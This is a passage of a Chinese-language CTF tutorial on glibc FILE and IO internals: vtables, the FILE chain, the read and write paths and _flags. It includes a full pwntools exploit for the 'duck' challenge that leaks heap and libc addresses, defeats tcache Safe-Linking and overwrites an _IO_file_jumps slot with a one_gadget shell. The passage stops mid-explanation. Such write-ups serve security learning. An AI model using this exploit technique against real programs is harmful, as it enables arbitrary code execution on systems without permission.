    static struct _IO_wide_data _IO_wide_data_##FD \
        = { ._wide_vtable = &_IO_wfile_jumps }; /* 宽字符数据结构，指定虚表 */ \
    struct _IO_FILE_plus NAME \
        = { FILEBUF_LITERAL(CHAIN, FLAGS, FD, &_IO_wide_data_##FD), \
            &_IO_file_jumps }; /* 标准流对象，初始化缓冲区和虚表 */

// DEF_STDFILE(NAME, FD, CHAIN, FLAGS)
DEF_STDFILE(_IO_2_1_stdin_, 0, 0, _IO_NO_WRITES);        // 标准输入流，文件描述符0，不允许写
DEF_STDFILE(_IO_2_1_stdout_, 1, &_IO_2_1_stdin_, _IO_NO_READS); // 标准输出流，文件描述符1，不允许读，链到stdin
DEF_STDFILE(_IO_2_1_stderr_, 2, &_IO_2_1_stdout_, _IO_NO_READS + _IO_UNBUFFERED); // 标准错误流，文件描述符2，不允许读且不缓冲，链到stdout
```

_IO_wide_data 是针对宽字符的虚函数表，这里先不关心，重点关注的是对 _IO_FILE_plus 结构体末尾虚函数表的定义，可以看到三者都被定义为了全局的 _IO_file_jumps:

_IO_file_jumps 是普通文件流对象的“方法表 / 操作菜单”,可以理解为一个巨大的函数指针数组，告诉libc关闭文件调谁，写数据调谁，读数据调谁，缓冲区满了调谁，同步时调谁，seek时调谁

```c
#define libio_vtable __attribute__ ((section ("__libc_IO_vtables"))) // 将对象放入 __libc_IO_vtables 段中，供 glibc 的 IO 虚表机制使用

#define JUMP_INIT(NAME, VALUE) VALUE // JUMP_INIT 宏在这里直接展开为对应函数指针的值
#define JUMP_INIT_DUMMY JUMP_INIT(dummy, 0), JUMP_INIT(dummy2, 0) // 前两个占位字段，填充为 0

const struct _IO_jump_t _IO_file_jumps libio_vtable = { // 定义 _IO_file_jumps 虚表，并放入指定段中
    JUMP_INIT_DUMMY,                            // 两个无实际用途的占位项
    JUMP_INIT(finish, _IO_file_finish),         // 文件流销毁/收尾函数
    JUMP_INIT(overflow, _IO_file_overflow),     // 输出缓冲区溢出时的处理函数
    JUMP_INIT(underflow, _IO_file_underflow),   // 输入缓冲区下溢时的处理函数
    JUMP_INIT(uflow, _IO_default_uflow),        // 默认读取单个字符并推进读指针的函数
    JUMP_INIT(pbackfail, _IO_default_pbackfail),// 退回字符失败时的默认处理函数
    JUMP_INIT(xsputn, _IO_file_xsputn),         // 批量写入多个字节到文件流
    JUMP_INIT(xsgetn, _IO_file_xsgetn),         // 批量从文件流读取多个字节
    JUMP_INIT(seekoff, _IO_new_file_seekoff),   // 按偏移量移动文件读写位置
    JUMP_INIT(seekpos, _IO_default_seekpos),    // 按绝对位置设置文件读写位置
    JUMP_INIT(setbuf, _IO_new_file_setbuf),     // 设置或更换文件流缓冲区
    JUMP_INIT(sync, _IO_new_file_sync),         // 同步缓冲区内容到实际文件
    JUMP_INIT(doallocate, _IO_file_doallocate), // 为文件流分配缓冲区
    JUMP_INIT(read, _IO_file_read),             // 底层 read 操作
    JUMP_INIT(write, _IO_new_file_write),       // 底层 write 操作
    JUMP_INIT(seek, _IO_file_seek),             // 底层 lseek/seek 操作
    JUMP_INIT(close, _IO_file_close),           // 底层关闭文件操作
    JUMP_INIT(stat, _IO_file_stat),             // 获取文件状态信息
    JUMP_INIT(showmanyc, _IO_default_showmanyc),// 查询还有多少字符可读的默认实现
    JUMP_INIT(imbue, _IO_default_imbue)         // 本地化/字符区域设置相关的默认实现
};

libc_hidden_data_def(_IO_file_jumps) // 将 _IO_file_jumps 标记为 libc 内部隐藏数据符号
```

并且，该全局虚函数表在 ELF 中使用单独的段 __libc_IO_vtables 进行标识:

```c
16  0x001baac0  0x1a01  0x001baac0  0x1a01  -r-x  __libc_freeres_fn
// 16            -> 节编号
// 0x001baac0    -> 虚拟地址（Vaddr）
// 0x1a01        -> 节大小（Size）
// 0x001baac0    -> 物理地址/加载地址（Paddr，很多 ELF 里和 Vaddr 看起来相近）
// 0x1a01        -> 文件中对应大小
// -r-x          -> 权限：可读、不可写、可执行
// __libc_freeres_fn -> 节名字

27  0x00214910  0x00e8  0x00215910  0x00e8  -rw-  __libc_subfreeres
// 这是一个可写数据节，一般不是代码，而是运行时使用的数据区域

28  0x002149f8  0x0008  0x002159f8  0x0008  -rw-  __libc_atexit
// 这个节很小，只有 0x8 字节，通常是某个退出处理相关的数据入口

29  0x00214a00  0x0d68  0x00215a00  0x0d68  -rw-  __libc_IO_vtables
// 这个节就是 glibc 的 IO 虚表区，_IO_file_jumps 这一类对象通常就在这里

```

glibc 把像 _IO_file_jumps 这种 IO 虚表，专门放进一个单独的 ELF 段里，名字叫 __libc_IO_vtables，也就是说，这些“合法的 FILE 虚表”不是散落在 libc 各处，而是集中放在一个专门区域。

## 文件列表

开头介绍 FILE 数据结构的时候，有一个字段还没介绍，即 struct _IO_FILE *_chain。从名字上也可以猜测这个字段用于实现链表结构。

glibc 会把当前进程里所有活着的 FILE 流对象，串成一个链表统一管理。可以把他理解成链表里的next 指针，指向下一个FILE流对象

在上节介绍 stdin/out/err 定义的时候看到:

• stdin->chain = 0

• stdout->chain = &stdin

• stderr->chain = &stdout

最后还定义了一个全局的头部 _IO_list_all:

所以整条链就是

```text
_IO_list_all
   ↓
stderr → stdout → stdin → NULL
```

```c
struct _IO_FILE_plus *_IO_list_all = &_IO_2_1_stderr_;
```

从链表顺序可见，stdin 在链表尾部，stderr 在头部。实际在使用 fopen 打开新的文件流时，会经过一系列调用:

fopen/fopen64 -> _IO_new_fopen ->__fopen_internal -> _IO_new_file_init_internal -> _IO_link_in(fp)

最终将新创建的 FILE 结构体插入上述链表的头部:

```c
void _IO_link_in(struct _IO_FILE_plus *fp) // 将一个 FILE 结构挂入全局的 _IO_list_all 链表中
{
    if ((fp->file._flags & _IO_LINKED) == 0) // 如果当前文件流还没有被链接进全局链表
    {
        fp->file._flags |= _IO_LINKED; // 给该文件流打上 _IO_LINKED 标志，表示它已经在链表里了

        fp->file._chain = (FILE *)_IO_list_all; // 让当前文件流的 _chain 指向原来的链表头，也就是头插法的“next”

        _IO_list_all = fp; // 更新全局链表头为当前文件流，把当前节点插到最前面
    }
}
```

这个链表时为了统一管理所有FILE，例如：程序退出时遍历所有流并 flush，关闭/清理时遍历所有流，某些内部机制需要知道当前有哪些 FILE等情况。

## 文件读写

文件读写的过程其实也类似，先看读文件的 fread，其调用链路为:

fread -> _IO_fread -> _IO_sgetn -> _IO_XSGETN

其中 _IO_XSGETN 是一个宏，其定义如下:

```c
#define _IO_XSGETN(FP, DATA, N) JUMP2(__xsgetn, FP, DATA, N) // 调用文件流虚表中的 __xsgetn 函数，一般用于“批量读取 N 个字节到 DATA”  本质上等价于：从 FP 对应的 vtable 里取出 __xsgetn 函数指针并调用

#define JUMP0(FUNC, THIS) (_IO_JUMPS_FUNC(THIS)->FUNC)(THIS) // 调用虚表中无额外参数的函数：只传入 THIS（通常是 FILE 指针） 相当于：vtable->FUNC(THIS)

#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC)(THIS, X1) // 调用虚表中带 1 个额外参数的函数：传入 THIS 和 X1 相当于：vtable->FUNC(THIS, X1)

#define JUMP2(FUNC, THIS, X1, X2) (_IO_JUMPS_FUNC(THIS)->FUNC)(THIS, X1, X2) // 调用虚表中带 2 个额外参数的函数：传入 THIS、X1、X2 相当于：vtable->FUNC(THIS, X1, X2)

#define JUMP3(FUNC, THIS, X1, X2, X3) (_IO_JUMPS_FUNC(THIS)->FUNC)(THIS, X1, X2, X3) // 调用虚表中带 3 个额外参数的函数：传入 THIS、X1、X2、X3 相当于：vtable->FUNC(THIS, X1, X2, X3)
```

JUMPn 主要是跳转到 vtable 对应的字段获取动态函数地址，不同点主要在于参数个数。因此实际的文件读取流程都在 _IO_file_xsgetn 函数中，getn 表示从 fp 中读取 n 字节。具体实现代码太长就不复制了，可以简要概括如下:

- 读取并不是直接读到给定的地址，而是先读到内部的缓存，由 _IO_buf_base 表示；
- 如果内部缓存还没分配，使用 _IO_doallocbuf 进行分配，会从相同的虚表中查找对应的 __doallocate 方法并执行；
- _IO_file_doallocate 内部会使用 malloc 分配缓存，默认大小是 8192；
- _IO_buf_base 指向缓存头部，_IO_buf_end 指向尾部(=p+size)；
- _IO_read_ptr 是缓存中有效数据的头部，_IO_read_end 是有效数据的尾部；
- 如果循环读取的某一刻缓存中的有效数据为空，会触发虚表中的 _IO_file_underflow 调用，判断文件是否已经关闭，如果关闭了就退出读取返回 EOF 给用户，否则继续等待数据；
- 最底层使用 vtable->read 即系统调用进行读取；

文件写入的流程也大同小异，使用虚表中的 xsputn 即 _IO_file_xsputn 方法进行写入。在新版本 glibc 中使用了新的实现 _IO_new_file_xsputn。和 fread 的差异主要在于内存分配的过程，实际是在触发 overflow 调用的时候进行内存分配的，下面是一个实际的栈回溯示例:

```c
[#0] __GI___libc_malloc           // 最底层的内存分配函数，glibc 在这里真正申请堆内存

[#1] __GI__IO_file_doallocate     // 为 FILE 对象分配缓冲区，本质上会调用 malloc 来申请 buffer

[#2] __GI__IO_doallocbuf          // 检查并触发文件流缓冲区分配；如果当前 FILE 还没有缓冲区，就调用 _IO_file_doallocate

[#3] _IO_new_file_overflow        // 处理输出缓冲区“放不下了”或“需要初始化写缓冲区”的情况，可能顺带触发缓冲区分配

[#4] _IO_new_file_xsputn          // 批量向文件流写入数据，例如 fwrite/printf 最终常会走到这里

[#5] __GI__IO_fwrite              // fwrite 的 glibc 实现，负责把用户给的数据交给底层 FILE 流去写

[#6] main                         // 你的主函数，说明这条调用链最初是从 main 中某个 fwrite/输出操作触发的


main
 -> fwrite
   -> 批量写文件流
     -> 发现缓冲区还没准备好 / 不够用
       -> 给 FILE 分配缓冲区
         -> malloc
```

触发 overflow 表示内部缓存空间不足，此时会有几种不同的情况:

1. 缓存还未申请(_IO_write_base == 0)，此时直接申请；
2. 当前已经有缓存，并且正在读取(flags & _IO_CURRENTLY_PUTTING == 0)，此时需要调整对应的读写指针以腾出空间；
3. 否则使用系统调用将数据写入到内核中，释放缓存空间压力；

还有一个值得一提的是 fclose，其大致操作如下:

- 将 FILE 指针从全局单链表中删除(_IO_un_link)；
- vtable->finish:
- 清空内部缓存(vtable->flush)；
- 关闭文件句柄(vtable->close)；
- 释放内部缓存(free)；
- 释放 FILE 结构体(free)；

至此，完成了对 stdio 生命周期的简单分析。

## 常见攻击

从前面的介绍可以看出，FILE 结构体之所以是一个常用的攻击目标，是因为其中虚函数表中存在大量的函数指针，并且在程序正常执行的生命周期会触发其中许多方法的查找和执行。加上 stdin、stdout、stderr 这些全局指针的存在，使得一旦可以劫持虚函数查找中的任意一级流程，就可以实现控制流劫持，从而进一步实现任意代码执行。

### 劫持IO_file_jump攻击

_IO_lock_t _IO_stdfile，_IO_wide_data（针对宽字节的虚函数表），_IO_FILE_plus（含有stdin,stdout）三者均被定义为IO_file_jumps

以下是gdb中一个虚表的实例


一个标准 FILE 对象底层其实是 _IO_FILE_plus：前半部分是 _IO_FILE，保存缓冲区、指针、fd、flags 等状态；末尾有一个 vtable 指针

当glibc对这个FILE做某种操作时，它不会写一堆if eles，而是直接走虚调用

_IO_JUMPS_FILE_plus(THIS) 取到 FILE 末尾的 vtable

_IO_JUMPS_FUNC(THIS) 会先做 IO_validate_vtable(...)

然后 JUMP1/JUMP0/... 再去调用具体槽位里的函数指针

我们根据情况，将对应的函数指针修改为system('/bin/sh')，就能getshell

#### [CISCN 2022 华东北]duck

ida看一下

add:开辟了1个大小为0x100的chunk块，只能一个一个分配


delete：free了一个chunk，但是没有制空指针


edit:指定chunk写入东西，大小限制为0x100


show:将chunk中的内容打印出来

因为指针未制空，所以我们可以将一个chunk放入unsortbin后，读出unsortbin的地址，从而获得libc基址

查看libc版本

```bash
(ctf) ┌──(root㉿x86_64-conda-linux-gnu)-[~/Pwn/[CISCN_2022]duck]
└─# strings ./libc.so.6| grep "GNU C Library"
GNU C Library (GNU libc) stable release version 2.34.
```

Safe-Linking 是在 glibc 2.32 这一代开始进入 malloc 体系的，各种hook是从2.34开始不再能生效的，所以这里不能用malloc_hook

这个版本中，针对 Tcache/Fastbin 方面的攻击，引入了 Safe-Linking 保护机制

```c
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

tcache是用头插法插入chunk块的，也就是当前块的 next 指针指向目前的 Tcache 头节点，接着自己作为头节点

这个保护就是相当于对fd指针进行fd = (Current_chunk_address >> 12) \oplus Next_chunk_address的处理

因此，如果我们要绕过保护机制，就需要知道 chunk 的地址。换言之，就是堆的地址我们能否得到。

Safe Linking 虽然使堆利用的难度上升，但是这个机制引发了一个非常有意思的现象。

就是**在 Tcache bin 是空的情况下，当有一个 chunk 需要被放入其中的时候，此时的头节点是等于 0 的！**

这个信息我们可以在 Tcache 的初始化操作中看出来：

```c
static void
tcache_init(void)
{
  mstate ar_ptr;
  void *victim = 0;
  const size_t bytes = sizeof (tcache_perthread_struct);

  if (tcache_shutting_down)
    return;

  arena_get (ar_ptr, bytes);
  victim = _int_malloc (ar_ptr, bytes);
  if (!victim && ar_ptr != NULL)
    {
      ar_ptr = arena_get_retry (ar_ptr, bytes);
      victim = _int_malloc (ar_ptr, bytes);
    }


  if (ar_ptr != NULL)
    __libc_lock_unlock (ar_ptr->mutex);

  /* In a low memory situation, we may not be able to allocate memory
     - in which case, we just keep trying later.  However, we
     typically do this very early, so either there is sufficient
     memory, or there isn't enough memory to do non-trivial
     allocations anyway.  */
  if (victim)
    {
      tcache = (tcache_perthread_struct *) victim;
      memset (tcache, 0, sizeof (tcache_perthread_struct));
    }

}
```

关键点：

1. victim = _int_malloc (ar_ptr, bytes); 先从 arena 里 malloc 出一块 sizeof (tcache_perthread_struct) 的内存。
2. tcache = (tcache_perthread_struct *) victim; 把这块内存当成 tcache_perthread_struct 用。
3. memset (tcache, 0, sizeof (tcache_perthread_struct)); 把这整个结构体全部置 0。

所以说，在 tcache 初始化完成且某个 bin 还没放过任何 chunk 的情况下，tcache->entries[tc_idx] 一定是 0。

而任何数和 0 进行异或，结果仍然是它本身。于是我们就得到了：fd = (Current_chunk_address >> 12)

简单来说，当一个 chunk 第一次被放入空的 fastbin 时，它的 fd 字段中存放的值是 (&p->fd >> 12)，即这个chunk本身的地址+0x10（也就是用户读写区），因为此时被保护的下一节点指针为 NULL，所以若这个chunk和heap的开头在同一页，我们就可以得到heap的基地址

基地址就是(fd >> 12)<< 12

所以这题我们可以在泄露堆、libc 基址的情况下，通过任意地址写，把 __libc_IO_vtables（源码里现在更常见的是 __io_vtables）中某个合法 IO_jump_t 实例里的某一个函数指针槽位改成 one_gadget；随后让某个 FILE 对象触发对应的 IO 操作，glibc 就会通过这张虚表间接调用到 one_gadget，从而可能 getshell。

以下是poc

```python
from heapq import heapify
from pwn import *

exe = ELF("./pwn")
libc = ELF("./libc.so.6")
ld = ELF("./ld.so")

p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})

def Add():
    p.sendafter(b'Choice: ',b'1')

def Del(index):
    p.sendafter(b'Choice: ',b'2')
    p.sendafter(b'Idx: ',index)

def Show(index):
    p.sendafter(b'Choice: ',b'3')
    p.sendafter(b'Idx: ',index)

def Edit(index,size,content):
    p.sendafter(b'Choice: ',b'4')
    p.sendafter(b'Idx: ',index)
    p.sendafter(b'Size: ',size)
    p.sendafter(b'Content: ',content)

Add() # 0
Del(b'0')

Show(b'0')
p.recvline()
heap_base = u64(p.recvline()[:-1].ljust(8,b'\x00')) << 12
success("heap_base: " + hex(heap_base))

for i in range(9):
    Add()
for i in range(1,9):
    Del(str(i).encode())

Show(b'8')
p.recvline()
leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))
offset = 96
main_arena = libc.symbols['main_arena']
libc_base = leak - offset - main_arena
success("libc_base: " + hex(libc_base))

'''
0xda861 execve("/bin/sh", r13, r12)
constraints:
  [r13] == NULL || r13 == NULL || r13 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xda864 execve("/bin/sh", r13, rdx)
constraints:
  [r13] == NULL || r13 == NULL || r13 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xda867 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
'''
one_gadget = [libc_base + 0xda861, libc_base + 0xda864, libc_base + 0xda867]

_IO_file_jumps = libc_base + libc.symbols['_IO_file_jumps']

target = (heap_base  >> 12) ^ (_IO_file_jumps) # tcachebin的加密机制，将下一个chunk指向我们要伪造的地方
Edit(b'7',b'8',p64(target))

Add()
Add()

Edit(b'11',b'64',p64(0)*3 + p64(one_gadget[1]))

p.interactive()
```

## 如何利用stdout来泄露libc基址

首先得讲一下flag规则

### _flags规则

FILE结构体中的第一个成员变量_flag，这个成员变量在后续利用_IO_2_1_stdout泄露libc的时候具有重要作用。

先简介一下_flag的规则，_flag的高两位字节是由libc固定的，不同的libc可能存在差异，但是基本上都为0xfbad0000。高两位字节其实就是作为一个标识，标志这是一个什么文件。而低两位字节的位数规则决定了程序的执行状态，低两位的规则如下：

```text
#define _IO_MAGIC 0xFBAD0000
// FILE 结构体的魔数，高 16 位标识这是 glibc 的 IO_FILE 对象。
// 常见 FILE->_flags 高位为 0xfbad，用来做基本合法性/类型识别。

#define _OLD_STDIO_MAGIC 0xFABC0000
// 旧版 stdio 的魔数，用于兼容老版本 stdio 结构。

#define _IO_MAGIC_MASK 0xFFFF0000
// 魔数掩码，用来取出 _flags 的高 16 位。
// 例如：_flags & _IO_MAGIC_MASK 可以判断是否等于 _IO_MAGIC。

#define _IO_USER_BUF 1
// 0x0001
// 表示当前缓冲区由用户提供。
// 如果设置了这个标志，FILE 关闭时 glibc 不负责释放该缓冲区。

#define _IO_UNBUFFERED 2
// 0x0002
// 表示该 FILE 是无缓冲模式。
// 典型例子是 stderr，标准错误流通常不缓冲或弱缓冲。

#define _IO_NO_READS 4
// 0x0004
// 表示该 FILE 不允许读。
// 例如 stdout/stderr 是输出流，一般会设置该标志。

#define _IO_NO_WRITES 8
// 0x0008
// 表示该 FILE 不允许写。
// 例如 stdin 是输入流，一般会设置该标志。

#define _IO_EOF_SEEN 0x10
// 0x0010
// 表示已经遇到 EOF。
// 例如 fread/fgetc 读到文件末尾后，该标志可能被置位。

#define _IO_ERR_SEEN 0x20
// 0x0020
// 表示该 FILE 发生过 IO 错误。
// 例如底层 read/write 失败时可能置位。

#define _IO_DELETE_DONT_CLOSE 0x40
// 0x0040
// 表示删除/清理 FILE 对象时，不要关闭底层文件描述符 _fileno。
// 也就是清理 FILE 结构，但不调用 close(_fileno)。

#define _IO_LINKED 0x80
// 0x0080
// 表示该 FILE 已经被链接进 _IO_list_all 链表。
// glibc 用 _chain 字段把所有活跃 FILE 串起来。

#define _IO_IN_BACKUP 0x100
// 0x0100
// 表示当前 FILE 正在使用 backup 区域。
// backup 区域主要和 putback/ungetc 这类“把字符退回去”的操作有关。

#define _IO_LINE_BUF 0x200
// 0x0200
// 表示该 FILE 是行缓冲模式。
// 遇到换行符 '\n' 时，可能会触发刷新。
// stdout 连接到终端时常见行缓冲。

#define _IO_TIED_PUT_GET 0x400
// 0x0400
// 表示 put 区和 get 区的指针逻辑上绑定。
// 也就是读写缓冲区之间存在关联，需要同步维护读写指针状态。

#define _IO_CURRENTLY_PUTTING 0x800
// 0x0800
// 表示当前 FILE 正处于写入状态。
// 对 stdout 泄露和 FILE 伪造来说比较重要。
// 如果要让 glibc 认为当前流正在输出，常会关注这个标志。

#define _IO_IS_APPENDING 0x1000
// 0x1000
// 表示该 FILE 以追加模式打开。
// 类似 fopen(path, "a") 或 "a+"，写入会追加到文件末尾。

#define _IO_IS_FILEBUF 0x2000
// 0x2000
// 表示该 FILE 是 filebuf 类型，即普通文件缓冲流。
// 标准的文件流通常会带这个标志。

#define _IO_BAD_SEEN 0x4000
// 0x4000
// 表示该 FILE 遇到过异常状态或坏状态。
// 可以理解为内部检测到流状态不正常。

#define _IO_USER_LOCK 0x8000
// 0x8000
// 表示用户显式管理该 FILE 的锁。
// 和 flockfile / funlockfile 等锁机制有关。
```

在执行流程中会将_flag和定义常量进行按位与运算，并根据与运算的结构进行判断如何执行。

### puts()函数执行流程

在栈的时候，我们经常使用puts去泄露地址，这里我们通过源码来明确一下puts是如何达到输出数据的功能的：

#### _IO_puts --> _IO_new_file_xsputn

puts()函数在源码中的表现形式为_IO_puts，我们一起来看一下源码：

```c
int
_IO_puts (const char *str)
{
  int result = EOF;

  // 计算要输出的字符串长度，不包括结尾的 '\0'
  size_t len = strlen (str);

  // 对 stdout 加锁，避免多线程同时操作 stdout 导致状态混乱
  _IO_acquire_lock (stdout);

  /*
     判断 stdout 是否可以按字节流方式输出。

     _IO_vtable_offset(stdout) != 0：
       主要用于兼容旧 ABI / 旧式 FILE 结构。

     _IO_fwide(stdout, -1) == -1：
       将 stdout 设置/检查为字节流方向。
       puts 输出的是普通 char 字符串，因此需要 stdout 处于字节流方向。
  */
  if ((_IO_vtable_offset (stdout) != 0
       || _IO_fwide (stdout, -1) == -1)

      /*
         调用 _IO_sputn 向 stdout 写入 str 的 len 个字节。
         注意这里不写入字符串末尾的 '\0'。
         _IO_sputn 最终会调用 stdout vtable 中的 __xsputn。
      */
      && _IO_sputn (stdout, str, len) == len

      /*
         puts 会自动在字符串末尾追加一个换行符 '\n'。
         这里用 _IO_putc_unlocked 写入这个换行符。
      */
      && _IO_putc_unlocked ('\n', stdout) != EOF)

    /*
       如果字符串和换行符都写入成功，
       返回写入的字符数 len + 1，但最大不超过 INT_MAX。
    */
    result = MIN (INT_MAX, len + 1);

  // 释放 stdout 的锁
  _IO_release_lock (stdout);

  // 成功时返回非负值，失败时返回 EOF
  return result;
}
```

这里可以看到_IO_puts在过程当中调用了一个叫做_IO_sputn函数（_IO_fwrite也会调用这个），

_IO_sputn 是一个宏，通常展开后会调用 _IO_XSPUTN(fp, data, len)，也就是通过 FILE 对象的 vtable 调用其中的 __xsputn 成员。

在 _IO_puts 中传入的 fp 是 stdout，而 stdout 通常指向 glibc 中的 _IO_2_1_stdout_ 对象。因此普通 stdout 场景下，最终会调用 stdout 的 vtable 中的 __xsputn。对于普通文件流，这个 __xsputn 一般对应 _IO_new_file_xsputn / _IO_file_xsputn。

#### _IO_new_file_xsputn --> _IO_OVERFLOW

```c
_IO_new_file_xsputn (FILE *f, const void *data, size_t n)
{
  // s 指向用户要写入的数据
  const char *s = (const char *) data;

  // to_do 表示还剩多少字节没有处理
  size_t to_do = n;

  // must_flush 表示是否必须刷新缓冲区
  // 对行缓冲来说，如果写入的数据里包含 '\n'，通常需要 flush
  int must_flush = 0;

  // count 表示当前可以先写入 FILE 内部缓冲区的字节数
  size_t count = 0;

  // 如果要写入的长度小于等于 0，直接返回 0
  if (n <= 0)
    return 0;

  /*
     这是一个经过优化的写入实现。

     如果本次要写入的数据跨越了缓冲区边界，
     或者当前 FILE 是无缓冲模式，
     那么 glibc 可能不会单纯地把数据全部放入用户态缓冲区，
     而是会尽量直接调用底层 write 系统调用写出去。
  */

  /*
     第一步：计算当前 FILE 的写缓冲区里还有多少可用空间。
  */

  if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      /*
         当前 FILE 是行缓冲模式，并且当前正处于写入状态。

         行缓冲的典型特点是：
         如果写入内容中出现换行符 '\n'，通常需要触发刷新。

         例如 stdout 连接到终端时，经常是行缓冲。
      */

      // 计算当前缓冲区剩余空间：
      // _IO_buf_end 是缓冲区结尾
      // _IO_write_ptr 是当前写指针
      count = f->_IO_buf_end - f->_IO_write_ptr;

      if (count >= n)
        {
          /*
             如果当前缓冲区剩余空间足够容纳本次全部写入数据，
             就从待写入数据的末尾往前扫描，检查是否存在 '\n'。
          */

          const char *p;

          for (p = s + n; p > s; )
            {
              if (*--p == '\n')
                {
                  /*
                     找到了换行符。

                     对行缓冲 FILE 来说，写到这个换行符为止就需要刷新。
                     因此这里只先写入到换行符所在位置，包括这个 '\n'。
                  */

                  count = p - s + 1;

                  // 标记本次写入后必须 flush
                  must_flush = 1;
                  break;
                }
            }
        }
    }
  else if (f->_IO_write_end > f->_IO_write_ptr)
    {
      /*
         非行缓冲情况，或者虽然是行缓冲但当前不处于 writing 状态。

         如果 _IO_write_end > _IO_write_ptr，
         说明当前写缓冲区还有可用空间。

         _IO_write_ptr 指向当前写到的位置；
         _IO_write_end 指向写缓冲区的结束位置。
      */

      count = f->_IO_write_end - f->_IO_write_ptr; /* 当前写缓冲区剩余空间 */
    }

  /*
     第二步：如果缓冲区还有空间，就先把一部分数据复制进 FILE 内部缓冲区。
  */

  if (count > 0)
    {
      // 如果缓冲区可用空间比待写入数据还大，只需要写入 to_do 字节
      if (count > to_do)
        count = to_do;

      /*
         把用户数据 s 复制到 FILE 的写缓冲区中。

         __mempcpy(dst, src, len) 的特点是：
         复制 len 字节后，返回 dst + len。

         所以这里复制完成后，
         f->_IO_write_ptr 会被更新到新的写入位置。
      */
      f->_IO_write_ptr = __mempcpy (f->_IO_write_ptr, s, count);

      // 用户数据指针向后移动 count 字节
      s += count;

      // 剩余待处理字节数减少 count
      to_do -= count;
    }

  /*
     第三步：如果还有数据没写完，或者因为行缓冲遇到 '\n' 必须刷新，
     就进入 flush / 直接写入流程。
  */

  if (to_do + must_flush > 0)
    {
      size_t block_size, do_write;

      /*
         先刷新当前已经填满或需要刷新的缓冲区。

         _IO_OVERFLOW(f, EOF) 最终会调用 FILE vtable 中的 __overflow 函数，
         对普通文件流来说通常会走到 _IO_new_file_overflow。

         这里传 EOF 并不是真的写入 EOF 字符，
         而是表示：请把当前缓冲区中的内容刷新出去。
      */
      if (_IO_OVERFLOW (f, EOF) == EOF)
        /*
           如果刷新失败：

           如果 to_do == 0，说明本来没有额外数据需要写，
           只是 flush 失败了，因此返回 EOF。

           如果 to_do != 0，说明已经写了一部分，
           返回已经成功处理的字节数 n - to_do。
        */
        return to_do == 0 ? EOF : n - to_do;

      /*
         尝试保持块对齐：
         尽量写入整数个 block 的数据。

         这样可以减少零碎写入，提高性能。
      */

      // block_size 是 FILE 缓冲区大小
      block_size = f->_IO_buf_end - f->_IO_buf_base;

      /*
         do_write 表示这次准备直接写到底层 fd 的字节数。

         如果 block_size >= 128，
         则尽量只写入 block_size 的整数倍；
         剩下不足一个 block 的尾巴后面再处理。

         如果 block_size < 128，
         则认为缓冲区太小，直接把 to_do 全部尝试写出去。
      */
      do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);

      if (do_write)
        {
          /*
             直接调用 new_do_write，把数据写到底层文件描述符。

             这里会绕过 FILE 的用户态缓冲区，
             直接把 s 指向的 do_write 字节写到内核。
          */
          count = new_do_write (f, s, do_write);

          // 更新剩余未写入字节数
          to_do -= count;

          /*
             如果实际写入字节数小于预期 do_write，
             说明底层写入没有完全成功，直接返回已经成功写入的数量。
          */
          if (count < do_write)
            return n - to_do;
        }

      /*
         第四步：处理剩余的尾部数据。

         正常情况下，剩余数据应该可以放进 FILE 缓冲区。

         但是对于行缓冲文件来说，逻辑会更复杂，
         所以这里交给 _IO_default_xsputn 处理通用情况。
      */
      if (to_do)
        to_do -= _IO_default_xsputn (f, s + do_write, to_do);
    }

  /*
     返回实际成功写入的字节数。

     n 是原本要写入的总字节数；
     to_do 是最后还没写完的字节数；
     所以 n - to_do 就是成功写入的数量。
  */
  return n - to_do;
}
```

```c
if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      count = f->_IO_buf_end - f->_IO_write_ptr;
      if (count >= n)
	{
	  const char *p;
	  for (p = s + n; p > s; )
	    {
	      if (*--p == '\n')
		{
		  count = p - s + 1;
		  must_flush = 1;
		  break;
		}
	    }
	}
    }

```

这段代码首先判断两个标志位：

```c
if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
```

其中，`_IO_LINE_BUF` 表示当前流是**行缓冲模式**。在这种模式下，如果写入的数据中包含换行符 `\n`，glibc 通常需要触发刷新逻辑，把缓冲区中的内容写到底层文件描述符对应的目标中，例如终端、文件、管道或 socket。

`_IO_CURRENTLY_PUTTING` 表示当前 `FILE` 流正处于**输出/写入状态**，也就是当前正在使用 put 区相关的写缓冲指针，例如 `_IO_write_ptr`、`_IO_write_base` 等。

接着：

```c
count = f->_IO_buf_end - f->_IO_write_ptr;
```

这行代码用于计算当前内部缓冲区从当前写指针 `_IO_write_ptr` 到缓冲区末尾 `_IO_buf_end` 之间还剩多少空间。也就是说，`count` 表示当前最多还能继续往缓冲区里放多少字节。

然后：

```c
if (count >= n)
```

这一步判断当前缓冲区剩余空间是否足够容纳本次准备写入的 `n` 个字节。只有在缓冲区足够大的情况下，代码才会进一步扫描这 `n` 个字节中是否存在换行符。因为当前是行缓冲模式，如果本次写入内容中包含 `\n`，就需要在写入后触发刷新。

接下来：

```c
for (p = s + n; p > s; )
```

这个循环从待写入数据的末尾开始向前遍历。这里的 `s` 指向本次待写入数据的起始位置，`s + n` 指向待写入数据的末尾后一字节。

循环体中：

```c
if (*--p == '\n')
```

